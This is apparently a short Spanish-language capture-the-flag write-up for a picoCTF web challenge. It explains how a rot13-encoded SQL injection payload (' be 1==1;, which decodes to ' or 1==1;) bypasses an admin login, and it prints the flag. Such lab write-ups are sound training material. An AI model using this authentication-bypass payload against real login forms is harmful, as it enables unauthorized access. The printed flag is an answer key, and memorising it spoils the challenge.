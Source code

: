 ## Objetivo 
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/54253/` ([link](https://jupiter.challenges.picoctf.org/problem/54253/)) or http://jupiter.challenges.picoctf.org:54253. Try to see if you can login as admin!
## Solución  
```bash
password: ' or 1==1;
SQL query: SELECT * FROM admin where password = '' be 1==1;'

----------------------------------------------------------------
##ingresando la password invertida en rot13:

password: ' be 1==1;
SQL query: SELECT * FROM admin where password = '' or 1==1;'

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}
```
## Notas Adicionales 
ahora solo hay un campo de password, y al parecer se encryptan las passwords ingresadas, esto lo sabemos ya que active el modo debug que es un campo oculto dentro del codigo de la pagina, asi que trantando mas passwords diferentes nos damos cuenta que la encriptacion se trata de rot13 por lo cual podemos ingresar una password que ya este invertida, para que cuando se encripte con rot13 el output sea igual a lo que queremos inyectar, en este caso: `' or 1==1`
### Referencias

CyberChef (rot13)
https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,false,13)&input=JyBvciAxPT0xOw